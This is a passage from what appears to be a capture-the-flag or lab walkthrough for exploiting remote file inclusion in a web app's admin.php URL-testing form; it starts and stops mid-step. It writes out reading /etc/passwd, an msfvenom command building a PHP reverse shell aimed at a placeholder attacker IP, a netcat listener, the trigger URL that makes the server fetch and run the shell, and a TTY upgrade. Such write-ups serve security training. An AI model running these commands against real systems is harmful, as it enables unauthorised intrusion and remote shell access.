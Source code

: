     * **Observation:** "VULNERABLE" appeared on the page, confirming **RFI**. We further confirmed with `cat /etc/passwd`.


7.  **Generate and Host a PHP Reverse Shell:**

    * **Action:** Create a PHP reverse shell script and place it in `~/robots_payloads/` (e.g., `shell.php`).

    * **Command (using `msfvenom`):**

        ```bash

        msfvenom -p php/meterpreter/reverse_tcp LHOST=<YOUR_ATTACKER_IP> LPORT=4444 -f raw > ~/robots_payloads/shell.php

        ```

    * **Note:** Ensure `shell.php` contains your attacker IP and a listening port (e.g., 4444).


8.  **Start Netcat Listener for Reverse Shell:**

    * **Action:** Open a **third terminal tab/window**.

    * **Command:**

        ```bash

        nc -lvnp 4444

        ```


9.  **Trigger the Reverse Shell:**

    * **Action:** In the `admin.php` "URL testing" feature, input the URL to your hosted PHP reverse shell.

    * **Command (in `admin.php` form):**

        ```

        http://<YOUR_ATTACKER_IP>/shell.php

        ```

    * **Reasoning:** The target web server downloads and executes `shell.php` from your Python server, causing it to connect back to your `nc` listener.

    * **Observation:** Your Netcat listener receives a connection, granting you a shell as the **`www-data`** user.


10. **Stabilize the Shell:**

    * **Action:** Upgrade the limited Netcat shell to a fully interactive TTY shell.

    * **Commands (executed in `www-data` shell):**

        ```bash

        python3 -c 'import pty; pty.spawn("/bin/bash")'

        # Press Ctrl+Z
